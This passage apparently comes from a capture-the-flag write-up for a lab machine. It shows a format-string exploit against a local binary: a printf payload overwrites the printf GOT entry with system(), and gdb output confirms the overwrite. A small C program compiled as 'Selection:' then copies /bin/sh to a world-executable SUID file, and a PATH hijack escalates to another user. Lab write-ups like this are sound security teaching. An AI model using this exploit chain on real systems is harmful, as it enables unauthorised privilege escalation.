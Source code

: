 ```bash
# prep the input file
mike@pegasus:~$ printf '1\n1\n\xfc\x9b\x04\x08\xfe\x9b\x04\x08%%36952u%%8$n%%44966u%%9$n' > t
mike@pegasus:~$

# run it in the debugger
(gdb) r <t
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/mike/my_first <t
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection:
Enter first number: Enter second number: Error details: ����

[... snip ...]

sh: 1: Selection:: not found

Program received signal SIGSEGV, Segmentation fault.
0x08c3f98c in ?? ()

# check where the GOT points to for printf()
(gdb) x/x 0x08049bfc
0x8049bfc <printf@got.plt>: 0x40069060

# confirm system() is still there :)
(gdb) p system
$1 = {<text variable, no debug info>} 0x40069060 <system>
```

The binary crashes with `sh: 1: Selection:: not found`, meaning that it is now trying to run `system("Selection:")` instead of `printf("Selection:")` due to the GOT override.

#### finishing the exploit
From here the exploit is pretty easy. We can use some $PATH trickery in our current shell to get `Selection:` to actually mean something, like prepare a small SUID C shell perhaps? :)

I quickly compiled some C wrapper code to prepare a shell and ran the exploit.

```bash
# Prep Selection: to make a SUID shell for john
# and modify PATH
mike@pegasus:~$ cat tojohn.c
#include <stdio.h>
int main()
{
    system("cp /bin/sh /tmp/tojohn");
    system("chmod 4777 /tmp/tojohn");
}
mike@pegasus:~$ gcc tojohn.c -o "Selection:"
mike@pegasus:~$ export PATH=/home/mike/:$PATH

# run the exploit...
mike@pegasus:~$ printf '1\n1\n\xfc\x9b\x04\x08\xfe\x9b\x04\x08%%36952u%%8$n%%44966u%%9$n' | ./my_first
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
```